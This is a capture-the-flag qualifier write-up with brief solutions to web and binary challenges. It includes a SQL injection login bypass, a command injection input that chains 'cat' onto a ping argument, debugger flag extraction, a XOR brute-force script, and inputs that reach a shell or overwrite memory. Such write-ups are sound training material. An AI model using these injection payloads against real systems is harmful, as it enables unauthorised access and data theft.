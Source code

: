 # SSS_Qualifiers_v12

##### 2025 Edition

- **Web: Qualifiers: Sequel Pro**  
`we use SQL Injection for this as the title suggests`  
&emsp;`user: admin`  
&emsp;`pass: ' OR '1' = '1`  
`the secret appears`

- **Web: Qualifiers: Cake**  
`we change the value of the FLAG cookie in applepie`  
`we refresh and we see the cookie updated`  
`it is containing the flag`

- **Web: Qualifiers: Welcome**  
`we look at the source code`  
`first part in:`  
&emsp;`/static/css/main.css`  
`second part in:`  
&emsp;`<p id="hidden" style="margin-left:5px;display:inline:float:right">svyr_</p>`  
`third part in:`  
&emsp;`/static/hidden.js?v=`  
`forth part in:`  
&emsp;`/static/logo.png`

- **Web: Qualifiers: In Your Face**  
`we look at the source code`  
`<!-- U1NTe2NhZ2VfdHJhdm9sdGF9Cg== -->`  
`we apply base64 on this string`

- **Web: Qualifiers: IP Destroyer**  
`simple command injection to cat the flag.txt`  
`after searching in multiple the directories we find the flag inside /home/ctf/flag`  
`so the input to retrieve the flag is: -c 0 8.8.8.8; cat /home/ctf/flag`

- **Binary: Qualifiers: Black Hole**  
`opened it in IDA`  
`we see that the flag is printed in /dev/null and it is impossible to retrieve it from that address`  
`we use gdb to see the flag before it is written in that file`  
`gdb ./black_hole`  
`gef➤  break fwrite`  
`gef➤  run`  
`gef➤  x/s $rdi`  
`0x602480:       "SSS{the_[REDACTED]_see}"`

- **Binary: Qualifiers: One by One**  
`opened it in Ghidra and than we extract`  
`part20 64h; part0 53h; part24 6Fh; part18 6Fh; part3 7Bh; part27 7Dh; part11 6Fh; part13 5Fh; part23 6Ch; part12 66h; part14 74h; part21 5Fh; part9 70h; part26 6Bh; part17 5Fh; part25 63h; part15 68h; part6 63h; part7 68h; part22 62h; part2 53h; part8 69h; part5 5Fh; part19 6Ch; part4 61h; part16 65h; part1 53h; part10 5Fh`  
`we order them and than we convert them from base64`

- **Binary: Qualifiers: Not Backdoor**  
`the file not_backdoor.exe is a POSIX tar archive (GNU)`  
`we extract the not_backdoor than we analyse the code in IDA`  
`we use the following script to try all XOR possibilities in the function sub_4006B6`  
`orig = [60, 60, 60, 20, 31, 29, 92, 27, 27, 22, 48, 12, 95, 1, 25, 0, 3, 26, 27, 10, 11, 48, 9, 3, 91, 8, 18, 111]`  
`for key in range(256):`  
&emsp;`decoded = ''.join(chr(b ^ key) for b in orig)`  
&emsp;`print(key, decoded)`  
`there was one result that matched the format starting with SSS and was the flag`

- **Binary: Qualifiers: Mirror Me**  
`opened it in IDA`  
`in max_mirror() function the output is 906609`  
`we choose 2 numbers with the product 906609: 913 and 993, so we can get to system("/bin/sh");`  
`then we search for the flag in the system and we find it in ./home/ctf/flag`

- **Binary: Qualifiers: Pinpoint**  
`opened it in IDA`  
`.data:0000000000601058 v    dd 53535353h`  
`this is the value we need to modify`  
`1398297427 = 0x53585353`  
`initially v is 0x53535353`  
`the four bytes are: at address 0x601058 is 0x53, at address 0x601059 is 0x53, at address 0x60105A is 0x53, at address 0x60105B is 0x53`  
`the only diff between the init value (0x53535353) and the target (0x53585353) is in the third byte (offset 2)`  
`we only need to change that byte`  
`offset 2 so we have to modify at 0x601058 + 2 = 0x60105A`  
`we must change it from 0x53 (83 decimal) to 0x58 (88 decimal)`  
`0x60105A = 6295642`  
`so the inputs are 6295642 and 88`  
`then we search for the flag in the system and we find it in ./home/ctf/flag`

- **Binary: Qualifiers: The Talker**  
`*(_DWORD *)&s.sa_data[2] = htonl(0x7F000001u); -> sends to localhost`  
`*(_WORD *)s.sa_data = htons(4444u); -> sends at port 4444`  
`sleep(10u); -> each 10 seconds`  
`read_flag(buf, 128LL) reads ../flag into a buffer`  
`the binary sends to 127.0.0.1:4444 each 10 seconds using sendto()`  
`we login to connect@141.85.224.99 and we use nc -ul 4444 to listen to 4444 port and we receive the flag`
